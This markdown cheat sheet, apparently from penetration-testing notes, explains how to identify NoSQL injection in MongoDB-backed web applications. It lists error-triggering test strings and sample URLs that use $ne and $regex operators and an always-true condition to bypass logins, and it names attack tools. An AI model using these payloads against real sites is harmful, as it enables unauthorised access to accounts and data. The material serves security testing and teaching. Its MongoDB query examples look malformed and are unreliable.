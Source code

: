 ```yaml
---
title: NoSQL Injection
category: Web Application
order: 5
---
```



> **Identification**

* Find a baseline request and response 
* Find a syntax error from the database
* Inject operators to modify query
* Inject javascript, BSON, JSON
* Access REST APIs or managment interfaces directly to database

> **Location in code**

* Usually in the $where operator
* mapReduce
* DB.eval

> **NoSQL Queries vs SQL**

MySQL | MongoDB
<code> select * from users where ID = 1; </code> | <code> db.find.user({user_id: 1,}) </code>
<code> update set users password = '[input]' where id = 1; </code> | <code> db.update.user({user_id, [#]}, {$set {password: '[input]'}}) </code>

> **NoSQL Injection: Test Location and Strings**

Errors:
{% highlight bash %}
'
"
{
}
[$ne]
[$regex]
[$gt]
//
;
||'1'=='1
{% endhighlight %}

Not Equals | <code> http://site.org/User[$ne]=1 </code>
RegEx | <code> http://site.org/user.php?type[$regex]=.*&username[$regex]=.*
Combined | <code> http://site.org/login.php?type[$ne]=user&username[$ne]=asdf&password=asdf'||'1'=='1' %26%26 'b' == 'b </code>

> **Tools**

* NoSQLMAP 
* NoSQL Exploitation Framework
* FuzzDB list
* Burp Suite Pro
